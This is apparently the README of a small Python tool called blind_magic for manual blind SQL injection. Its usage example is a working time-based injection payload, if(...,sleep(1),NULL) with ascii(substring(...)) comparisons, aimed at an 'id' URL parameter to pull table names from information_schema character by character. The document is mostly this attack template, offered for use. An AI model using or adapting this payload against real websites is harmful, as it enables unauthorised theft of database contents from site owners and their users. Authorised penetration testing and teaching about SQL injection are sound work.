 # blind_magic 0.1.1 (first blood)  
Manual Blind SQL Injection  
  
Some trick:  
I supply to you 5 loop variable l1 to l5 {l1} {l2} {l3} {l4} {l5}  
  
Blind query statament:  
{CONDITION_QUERY}  
{QUERY}  
{OPERATOR}  
{CHAR}  
  
example:  
  
blind_magic = Blind_magic()  
blind_magic.l(13,5,0,0,0,1,0,0,0,0)  
blind_magic.url = "http://localhost/?id="  
blind_magic.base_query = "if(({CONDITION_QUERY}),sleep(1),NULL)"  
blind_magic.condition_query = "ascii(substring(({QUERY}),{l1},1)){OPERATOR}{CHAR}"  
blind_magic.query = "select table_name from information_schema.tables limit {l2},1"  
blind_magic.run()  
print blind_magic.result  

